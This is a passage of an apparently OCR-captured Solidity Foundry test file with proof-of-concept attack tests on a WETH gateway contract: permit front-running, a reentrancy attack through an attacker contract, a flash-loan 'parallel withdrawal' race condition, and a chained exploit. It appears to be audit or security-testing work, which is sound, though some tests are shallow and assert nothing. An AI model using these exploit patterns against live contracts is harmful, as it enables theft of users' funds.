 ```solidity
            r,
            s
        );
        vm.stopPrank();
        
        // Alice's transaction now fails or processes with worse terms
        vm.prank(alice);
        gateway.withdrawETHWithPermit(
            address(weth),
            10 ether,
            alice,
            deadline,
            v,
            r,
            s
        );
    }
    
    function testReentrancyAttack() public {
        // Fund attacker contract
        vm.deal(address(attacker), 10 ether);
        
        // Initial deposit to get aTokens
        vm.prank(address(attacker));
        gateway.depositETH{value: 5 ether}(address(weth), address(attacker), 0);
        
        // Launch reentrancy attack
        attacker.startAttack();
        
        // Verify attacker gained extra ETH
        assertGt(address(attacker).balance, 5 ether);
    }
    
    function testCombinedBalanceManipulationAttack() public {
        // Setup flash loan amount
        uint256 flashLoanAmount = 1000 ether;
        
        vm.startPrank(malicious);
        
        // Simulate flash loan received
        gateway.depositETH{value: flashLoanAmount}(address(weth), malicious, 0);
        
        // Prepare multiple parallel withdrawals
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 300 ether;
        amounts[1] = 400 ether;
        amounts[2] = 500 ether;
        
        // Execute parallel withdrawals exploiting race condition
        for(uint i = 0; i < amounts.length; i++) {
            gateway.withdrawETH(address(weth), amounts[i], malicious);
        }
        
        vm.stopPrank();
    }
    
    function testCompleteExploitChain() public {
        // 1. Start with permit front-running
        testPermitFrontRunningAttack();
        
        // 2. Follow up with reentrancy
        testReentrancyAttack();
        
```